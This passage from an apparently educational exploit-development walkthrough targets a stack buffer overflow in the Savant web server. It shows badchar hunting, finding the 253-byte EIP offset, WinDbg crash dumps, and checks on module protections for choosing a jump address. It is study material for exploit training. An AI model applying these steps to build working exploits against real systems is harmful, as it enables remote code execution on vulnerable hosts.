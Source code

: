 ```C
0473ea8d  01 02 03 04 05 06 07 08-09 0b 0c 0e 0f 10 11 12  ................
0473ea9d  13 14 15 16 17 18 19 1a-1b 1c 1d 1e 1f 20 21 22  ............. !"
0473eaad  23 24 25 26 27 28 29 2a-2b 2c 2d 2e 2f 30 31 32  #$%&'()*+,-./012
0473eabd  33 34 35 36 37 38 39 3a-3b 3c 3d 3e 3f 40 41 42  3456789:;<=>?@AB
0473eacd  43 44 45 46 47 48 49 4a-4b 4c 4d 4e 4f 50 51 52  CDEFGHIJKLMNOPQR
0473eadd  53 54 55 56 57 58 59 5a-5b 5c 5d 5e 5f 60 61 62  STUVWXYZ[\]^_`ab
0473eaed  63 64 65 66 67 68 69 6a-6b 6c 6d 6e 6f 70 71 72  cdefghijklmnopqr
0473eafd  73 74 75 76 77 78 79 7a-7b 7c 7d 7e 7f 80 81 82  stuvwxyz{|}~....
0473eb0d  83 84 85 86 87 88 89 8a-8b 8c 8d 8e 8f 90 91 92  ................
0473eb1d  93 94 95 96 97 98 99 9a-9b 9c 9d 9e 9f a0 a1 a2  ................
0473eb2d  a3 a4 a5 a6 a7 a8 a9 aa-ab ac ad ae af b0 b1 b2  ................
0473eb3d  b3 b4 b5 b6 b7 b8 b9 ba-bb bc bd be bf c0 c1 c2  ................
0473eb4d  c3 c4 c5 c6 c7 c8 c9 ca-cb cc cd ce cf d0 d1 d2  ................
0473eb5d  d3 d4 d5 d6 d7 d8 d9 da-db dc dd de df e0 e1 e2  ................
0473eb6d  e3 e4 e5 e6 e7 e8 e9 ea-eb ec ed ee ef f0 f1 f2  ................
0473eb7d  f3 f4 f5 f6 f7 f8 f9 fa-fb fc fd fe ff 41 41     .............AA
```

0D is not appearing, so we can delete it although it is not breaking the buffer, it is completely ignored so if our shellcode has such character it probably will be skipped by the program.
After deleting 0d, the EIP does not point to our controlled location and we have to perform a binary search again.
We end detecting all the badchars via different methods. **Note that you could have to go back and forth with the different methods as each badchar can make the application behave different.**

Now, if we try to obtain the number off bytes that we have to send to overwrite EIP via the `msf-pattern_create` tool, we obtain that it causes a different access violation in which our instrucction pointer is not ovewritten with an unique value, as we would expect.
We have to **also manually split the buffer using different characters to manually detect the offset by analyzing which value does EIP have.**
If we do that, we will detect that it's 253 bytes prior to the instruction pointer.
```c
*** WARNING: Unable to verify checksum for Savant.exe
eax=ffffffff ebx=001c2bf0 ecx=21d8b80f edx=00000000 esi=001c2bf0 edi=0041703c
eip=42424242 esp=0489ea1c ebp=41414141 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
42424242 ??              ???
0:009> dds esp
0489ea1c  00434343 Savant+0x34343
0489ea20  0489ea74
0489ea24  0041703c Savant+0x1703c
```
Again, we only have 3 bytes in ESP so we cannot store our shellcode there. But we have controlled EIP.
Now that we have confirmed that the offset is correct, we need to find a good instruction to overwrite EIP with that will allow us to take control of the execution flow.
Let's use the narly WinDbg extension to list the protections of the loaded modules.
To make our exploit as portable as possible, we need to choose a module that comes with the application. In addition, the module should not be compiled with any protections.
Let’s load the extension and list the protections of all loaded modules:
```c
0:009> !nmod
00400000 00452000 Savant               /SafeSEH OFF                Savant.exe
62f10000 63120000 comctl32_62f10000    /SafeSEH ON  /GS *ASLR *DEP C:\Windows\WinSxS\x86_microsoft.windows.common-controls_6595b64144ccf1df_6.0.19041.5678_none_a867ae788670d4c7\comctl32.DLL
679b0000 67a45000 TextShaping          /SafeSEH ON  /GS *ASLR *DEP C:\Windows\SYSTEM32\TextShaping.dll
69d80000 69d8e000 winrnr               /SafeSEH ON  /GS *ASLR *DEP C:\Windows\System32\winrnr.dll
69d90000 69da0000 wshbth               /SafeSEH ON  /GS *ASLR *DEP C:\Windows\system32\wshbth.dll
6a230000 6a246000 pnrpnsp              /SafeSEH ON  /GS *ASLR *DEP C:\Windows\system32\pnrpnsp.dll
6a980000 6a991000 napinsp              /SafeSEH ON  /GS *ASLR *DEP C:\Windows\system32\napinsp.dll
6bfd0000 6c05d000 COMCTL32             /SafeSEH ON  /GS *ASLR *DEP C:\Windows\WinSxS\x86_microsoft.windows.common-controls_6595b64144ccf1df_5.82.19041.4355_none_c0dc01d438beab35\COMCTL32.dll
6c980000 6c988000 WSOCK32              /SafeSEH ON  /GS *ASLR *DEP C:\Windows\SYSTEM32\WSOCK32.dll
```